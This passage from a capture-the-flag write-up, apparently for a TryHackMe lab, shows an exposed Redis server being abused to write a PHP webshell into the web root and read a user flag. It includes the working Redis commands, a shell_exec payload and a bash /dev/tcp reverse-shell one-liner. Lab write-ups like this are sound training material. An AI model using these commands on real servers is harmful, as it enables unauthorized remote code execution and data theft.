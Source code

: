 ![Redis Server Info](https://i.imgur.com/wY67rBA.png)

This showed me that there weren't any actual databases set up, meaning I likely won't be leaking info from a database.

Lower down on that hacktricks page, I learned that I can potentially create a webshell if I know the webserver's root folder path.

The hacktricks book uses a phpinfo() payload, so I'll have to use a webshell payload that I already have saved in a file on my system.

Visiting the website, it is just an Apache 2 default page, which tells me the location of this directory right away. <br>
It's at /var/www/html

So, using netcat to interface with the Redis server, I run the following commands with a simple php webshell paylaod: <br>
> `config set dir /var/www/html` <br>
> +OK <br>
`config set dbfilename redis.php` <br>
> +OK <br>
`set test "<?php echo \"<pre>\" . shell_exec($_GET[\"cmd\"]) . \"</pre>\"; ?>"` <br>
> +OK <br>
`save` <br>
> +OK <br>

Now I can navigate to the new file I created at 'res.thm/redis.php' and start inputting commands. <br>

> `http://res.thm/redis.php?cmd=ls` <br>
> index.html <br>
> redis.php <br>

Success! Time to enumerate further. <br>
> `?cmd=ls /home` <br>
> vianka <br>
`?cmd=ls /home/vianka` <br>
> redis-stable <br>
> user.txt <br>
`?cmd=cat /home/vianka/user.txt` <br>

> Answer: thm{red1s_***********************}


---

### What is the local user account password?

I looked around the user vianka's home directory some more, but didn't find any other suspicious files or useful info.

At this point I thought it would be ideal to catch an actual shell on this server, so I tried a few things to accomplish this: <br>

`?cmd=bash -i >& /dev/tcp/myIP/7777 0>&1`

This didn't seem to work for me. Stderr doesn't get displayed either, so I'm running blind in that regard.
